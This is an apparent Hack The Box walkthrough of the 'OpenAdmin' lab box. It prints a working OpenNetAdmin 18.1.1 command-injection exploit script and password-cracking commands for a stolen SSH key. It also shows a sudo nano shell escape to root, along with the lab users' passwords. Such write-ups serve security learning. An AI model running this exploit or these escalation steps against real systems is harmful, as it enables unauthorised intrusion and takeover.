 # Hack The Box | OpenAdmin

![](images/status-card.png)

## Box Summary

This box is an easy Linux box on HackTheBox created by dmw0ng. We begin by finding a webserver running on port 80 that leads us to an opennetadmin instance logged in as guest. From there we are able exploit a remote code execution vulnerability to gain acess to the box as www-data. We find credentials to ssh in as Jimmy in a php file on the webserver. We pivot to Joanna by cracking an encrypted RSA key on the box that is used for ssh. Once we are logged in as Joanna, we find that she is able to run nano with root privileges. We exploit this to gain a root shell on the box.

## Enumeration

We run nmap on the box and find two open ports: 80/tcp, 22/tcp

```
nmap -sV -sC -oA nmap/openadmin 10.10.10.171
```

![](images/nmap-screenshot.png)

We take a look at port 80 in our browser by going to http://10.10.10.171 and we find that there is just an Ubuntu Apache2 Default Page running. 

We run gobuster to enumerate any directories that may give us more information about the webserver. We find that there is a /music directory that exists.

```bash
gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](images/gobuster.png)

When we visit the webpage we see a login and signup button.

![](images/music.png)

Navigating to the login section of the site, we are redirected to http://10.10.10.171/ona which is a service called  **opennetadmin**. We are logged into the service as a guest. We can see near the top of the page that the version running is v18.1.1

![](images/ona.png)

## Initial Foothold

Now that we know the version number, we want to search for publicly available exploits using searchsploit

```
searchsploit opennetadmin
```

![searchsploit.png](images/searchsploit.png)

We find an exploit for RCE, 46791.sh

We copy this to our current directory using the ```-m``` flag and rename the file for convenience.

```
searchsploit -m exploits/php/webapps/47691.sh
mv 47691.sh ona-rce.py
```



![copy-exploit.png](images/copy-exploit.png)



When looking at the contents of the file, we see that the exploit is a curl command that sends our commands to the server.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

The version we copied from searchsploit is encoded for windows, so we simply fix that by running ```dos2unix``` on the file.

```
dos2unix ona-rce.py
```

We run the exploit and find that we are able to execute code as ```www-data```

![](images/initial-foothold.png)

We now enumerate files on the box, looking for any sensitive information in any of the php files found on the webserver. We find ```local/config/database_settings.inc.php``` which contains a password.

![database-settings.png](images/database-settings.png)

We look for users on the box that have a login shell by looking at ```/etc/passwd``` and find two users on the box: jimmy and joanna.

![etc-passwd.png](images/etc-passwd.png)

Now that we have a couple users, we check for credential resuse and find that jimmy has reused a password. Because of this, we are able to ssh into the box as user jimmy the password 'n1nj4W4rri0r!'

![jimmy-ssh.png](images/jimmy-ssh.png)



## Pivoting to Joanna

Now that we are logged in as the user jimmy, we need to pivot to joanna since she holds the ```user.txt``` file we are after. We poke around the filesystem and find a directory ```/var/www/internal``` on the system. To see how this site is setup, we want to take a look at the apache2 configuration for this site ```/etc/apache2/sites-enabled/internal.conf```



![internal-conf.png](images/internal-conf.png)

We see that the site is running on port 52846. We navigate back to the ```/var/www/internal``` directory to take a look at the files, and we see that ```main.php``` executes code that outputs joanna's ssh rsa key.

```
vim /var/www/internal/main.php
```

![main-php.png](images/main-php.png)

Since we know the internal site is running on port 52486, we can try to curl this page to see if the code executes. We get the key.

![curl-joanna-key.png](images/curl-joanna-key.png)

Now that we have they key, we save it to our local machine as ```joanna_id_rsa```. Since the file is encrypted, we will need to crack the password. We use ```ssh2john``` to change the rsa key to a format that john the ripper will understand.

```
/usr/share/john/ssh2john.py joanna_id_rsa > joanna_id_rsa.john
```

Now we can pass this file to john, using the rockyou.txt wordlist and let it run with the following command:

```
john joanna_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

After a moment, we can see that john cracks the key for us:

![crack-joanna.png](images/crack-joanna.png)

We need to lock down permissions on the key to 600 or ssh will yell at us for having a world-readable key:

```
chmod 600 joanna_id_rsa
```

Now we can login with ssh using joanna's key and 'bloodninjas' password.

```
ssh -i joanna_id_rsa joanna@10.10.10.171 
```

![joanna-ssh.png](images/joanna-ssh.png)

We have owned user!

![user-txt.png](images/user-txt.png)



## Privilege Escalation

Now we need to find a path to root. We begin by seeing what commands joanna can run as sudo with ```sudo -l``` and see that she can run ```/bin/nano /opt/priv``` as root.

![sudo-l.png](images/sudo-l.png)

Usually when a user can run a system binary as root, I like to check [GTFObins](https://gtfobins.github.io/) to see if it is exploitable. We see nano on the list and that we can use control commands to execute code as root and escape to a shell.

![Ref: https://gtfobins.github.io/nano](images/gtfo-nano.png)

We run ``` sudo /bin/nano /opt/priv``` to open the editor as root. From there, we hit CTRL+R for Read File, then CTRL+X to Execute Command. we type ```reset; sh 1>&0 2>&0``` to reset our shell, spawn ```sh``` and redirect standard out and standard error to the terminal. This gives a root shell.



![nano-root.png](images/nano-root.png)

Root Owned!
